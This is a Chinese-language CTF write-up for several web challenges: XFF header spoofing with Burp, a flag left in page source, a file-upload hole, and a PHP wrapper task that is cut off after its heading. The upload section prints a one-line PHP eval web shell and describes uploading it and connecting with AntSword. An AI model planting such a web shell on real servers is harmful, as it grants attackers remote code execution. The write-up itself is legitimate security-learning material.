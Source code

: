 请求头内容请看[参考文章](https://www.cnblogs.com/gxz-sw/p/6761984.html)

**补充:**

**X-Forwarded-For: **简称XFF头，它代表客户端，也就是HTTP的请求端真实的IP

### 题解：
要求如下

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730724969465-da54ea22-4ef1-405a-913b-c2314a72048a.png)

burp 抓包修改请求头

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730725408762-d491aab4-421c-4701-bdb7-ddfec3d2cce5.png)

之后进行 base64 解码

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730725948293-e70ceade-15da-4f49-96d7-8ef452403312.png)

## A Dark Room
### 考点：
不太明白这个题，做了可点击的界面，却把 flag 直接放在源码中

### 题解：
flag 在源码中,按下 F12 即可

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730726433049-c769a6c1-11cd-4b18-8b51-4aad27445674.png)

## upload
### 考点：
**文件上传漏洞(**上传一个 php 文件或者将一句话木马传入可以解析 php 的地方)

编写一个 php 文件

内容是一句话木马,蚁剑连接时密码就是 shell

```php
<?php eval($_POST['shell']);?>
```

### 题解：
![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730726681807-e92172bd-8a1e-428c-bd86-4cb4e889bf2c.png)

虽然网页标签名叫“上传喜欢的照片”，但是随便上传一个文件，发现上传成功而且爆出了源码，看见没有任何过滤，直接写个一句话木马上传

上传之后，根据源码知道木马文件地址在同级目录 upload 下而且没有被重命名

之后蚁剑连接，拿到 flag

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1730727219087-ea63dcd8-4481-47f9-9c68-7cc81c61e8fe.png)

## Aura 酱的礼物
### 考点：
**php 伪协议:**[**参考文章**](https://blog.csdn.net/cosmoslin/article/details/120695429?ops_request_misc=%257B%2522request%255Fid%2522%253A%252202F23DC3-ED75-41BD-892E-C1B43F54E542%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=02F23DC3-ED75-41BD-892E-C1B43F54E542&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~top_positive~default-1-120695429-null-null.nonecase&utm_term=php%E4%BC%AA%E5%8D%8F%E8%AE%AE&spm=1018.2226.3001.4450)
